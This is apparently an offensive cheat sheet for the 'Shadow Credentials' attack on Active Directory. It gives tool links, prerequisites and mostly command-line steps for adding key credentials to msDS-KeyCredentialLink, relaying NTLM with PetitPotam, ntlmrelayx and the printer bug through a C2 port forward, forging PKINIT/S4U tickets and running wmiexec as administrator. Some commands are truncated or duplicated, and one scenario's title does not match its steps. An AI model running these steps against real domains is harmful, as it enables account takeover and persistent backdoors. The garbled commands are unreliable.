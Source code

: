 # Shadow Credentials

## Tools: Whisker https://github.com/eladshamir/Whisker , pyWhisker https://github.com/ShutdownRepo/pywhisker , ShadowSpray https://github.com/Dec0ne/ShadowSpray/

### Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

## WARNING! User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

## Requirements

#### 1) Domain Controller on (at least) Windows Server 2016

#### 2) Domain must have Active Directory Certificate Services and Certificate Authority configured

#### 3) PKINIT Kerberos authentication

#### 4) An account with the delegated rights to write to the msDS-KeyCredentialLink attribute of the target object

## Exploitation

## Windows

#### 1) # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.

 - Whisker.exe list /target:computername$

#### 2) # Generates a public-private key pair and adds a new key credential to the target object.

 - Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

## Linux

 - python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"

## Scenarios:

### Scenario 1: Shadow Credential relaying

#### 1) Trigger an NTLM authentication from DC01 (PetitPotam)

#### 2) Relay it to DC02 (ntlmrelayx)

#### 3) Edit DC01 's attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)

### Alternatively : 

 - ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

### Scenario 2: Workstation Takeover with RBCD

### Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

#### 1) Set up ntlmrelayx to relay authentication from target workstation to DC

 - proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-credentials

#### 2) Execute printer bug to trigger authentication from target workstation

 - proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/

#### 3) Get a TGT using the newly acquired certificate via PKINIT

 - proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/

#### 4) Get a ST (service ticket) for the target account

 - proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.

#### 5) Utilize the ST for future activity

 - export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache

 - proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab

